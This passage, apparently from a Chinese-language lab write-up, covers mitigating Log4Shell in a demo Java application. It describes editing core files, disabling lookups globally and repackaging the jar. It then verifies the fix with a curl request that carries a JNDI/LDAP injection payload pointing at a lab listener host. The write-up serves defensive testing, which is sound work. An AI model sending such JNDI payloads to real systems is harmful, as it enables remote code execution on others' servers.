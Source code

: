 ![](./pic/修改核心文件内容.png)<br>
修改完成之后，我们尝试使用查找命令来看有没有删除目标内容<br>
![](./pic/验证命令_说明已删除.png)<br>
其后，再添加全局禁用，来保证一定的安全<br>
![](./pic/添加全局禁用配置.png)<br>
然后，我们将文件重新打包<br>
![](./pic/重新打包到demo.jar.png)

##### 验证缓解效果

我们使用
```bash
curl "http://192.168.8.129:51707/search?q=\${jndi:ldap://192.168.8.132:7777/a}"
```
来验证效果<br>
![](./pic/结果.png)<br>
请求成功到达了目标服务器（192.168.8.129:51707）/search 路径存在或被 Web 框架处理了。但并没有在监听窗口（nc 监听）看到任何连接，也没有出现服务器尝试访问 192.168.8.132:1389
